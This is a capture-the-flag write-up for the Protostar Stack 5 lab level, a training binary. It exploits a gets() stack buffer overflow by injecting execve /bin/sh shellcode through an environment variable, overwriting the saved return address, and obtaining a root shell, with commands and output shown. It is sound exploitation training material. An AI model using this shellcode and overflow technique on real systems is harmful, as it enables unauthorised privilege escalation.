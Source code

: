 # Protostar - Stack 5

### About ###

>Stack5 is a standard buffer overflow, this time introducing shellcode.
>
>This level is at /opt/protostar/bin/stack5
>
> **Hints**

> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### Solution 

This time we can't use the `win` function, we will need to inject our own code into the process.

The shellcode we will use is available [here](http://shell-storm.org/shellcode/files/shellcode-585.php). We will use an environment variable to store our shellcode.

```
user@protostar:/tmp$ export SHELLCODE=$(python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
```

The following c program will give us the address of `SHELLCODE` in the stack.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
       	printf("%p\n", getenv(argv[1]));
       	return 0;
}
```

```
user@protostar:/tmp$ gcc -o getenv getenv.c
user@protostar:/tmp$ ./getenv SHELLCODE
0xbffff8b8
```

Now we can overwrite the saved `eip` with `0xbffff8b8` and get root access to the machine.

```
user@protostar:/tmp$ id
uid=1001(user) gid=1001(user) groups=1001(user)

user@protostar:/tmp$ (python -c "print 'A'*$((76))+'\xb8\xf8\xff\xbf'"; cat;) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```